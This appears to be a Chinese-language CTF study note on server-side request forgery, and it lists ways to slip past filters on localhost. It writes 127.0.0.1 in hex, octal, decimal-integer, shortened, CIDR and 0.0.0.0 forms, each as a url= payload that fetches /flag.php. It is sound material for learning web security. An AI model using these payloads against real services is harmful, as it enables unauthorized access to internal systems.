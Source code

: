 ##### 进制绕过

可以看到127进行16进制转换后为7f，在16进制前加上0x使电脑识别为16进制，ping 0x7f.0.0.1 计算机可识别为127.0.0.1

![image-20240508222054952](D:\Infiltration\笔记\note\图片\image-20240508222054952.png)



```
url=http://0x7f.0.0.1/flag.php
```

![image-20240508222252310](D:\Infiltration\笔记\note\图片\image-20240508222252310.png)



八进制前面加上0，使电脑识别为八进制

```
url=http://0177.0.0.1/flag.php
```

![image-20240508222600775](D:\Infiltration\笔记\note\图片\image-20240508222600775.png)



##### ip地址转换



![image-20240508223314279](D:\Infiltration\笔记\note\图片\image-20240508223314279.png)

###### 十进制整数

```
url=http://2130706433/flag.php
```



![image-20240508223349210](D:\Infiltration\笔记\note\图片\image-20240508223349210.png)

###### 十六进制整数

```
url=http://0x7F000001/flag.php
```

![image-20240508223517920](D:\Infiltration\笔记\note\图片\image-20240508223517920.png)

```
还有一种特殊的省略模式
  127.0.0.1写成127.1

用CIDR绕过localhost
  url=http://127.127.127.127/flag.php

还有很多方式
  url=http://0/flag.php
  url=http://0.0.0.0/flag.php
```
